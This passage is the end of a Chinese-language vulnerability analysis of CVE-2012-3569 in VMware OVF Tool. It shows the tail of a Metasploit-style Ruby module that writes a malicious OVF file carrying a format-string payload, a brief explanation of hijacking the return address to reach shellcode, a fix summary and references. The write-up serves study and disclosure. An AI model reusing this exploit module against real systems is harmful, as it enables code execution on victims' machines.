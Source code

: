 ```Ruby
    <Disk ovf:capacity="8" ovf:capacityAllocationUnits="#{fs}" ovf:diskId="vmdisk1" ovf:fileRef="file1" ovf:format="https://www.vmware.com/interfaces/specifications/vmdk.html#streamOptimized" />
  </DiskSection>
  <VirtualSystem ovf:id="Small VM">
    <Info>A virtual machine</Info>
  </VirtualSystem>
</Envelope>
    EOF
    ovf_file
  end

  def exploit
    print_status("Creating '#{datastore['FILENAME']}'. This files should be opened with VMMWare OVF 2.1")
    file_create(ovf)
  end
end
```

exp 较短，实际上按照 ovf 文件格式和 ovftool.exe 处理文件的逻辑生成包含了被填充字符包裹的格式化字符串 payload 的恶意文件。具体利用思路为劫持栈帧返回地址使程序执行流跳转到设定好的 shellcode 处，参照注释即可在此不再赘述

## 漏洞修复

使格式化控制字符串为字面量或者不由外界控制即可，漏洞修复思路较为明确而官方补丁变动较大不便分析，故不再赘述

## Reference

[std:: basic_ostream](https://en.cppreference.com/w/cpp/io/basic_ostream.html)
[Official Document](https://www.vmware.com/security/advisories/VMSA-2012-0015.html)
[Microsoft Vulnerability Research Advisory MSVR13-002](https://learn.microsoft.com/en-us/security-updates/vulnerabilityresearchadvisories/2013/msvr13-002)
[Github - CVE-2012-3569](github.com/advisories/GHSA-8wg2-73cr-jv3q)
[NVD - CVE-2012-3569](https://nvd.nist.gov/vuln/detail/CVE-2012-3569)
[CVE - CVE-2012-3569](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3569)
[漏洞战争](https://book.douban.com/subject/26830238/)
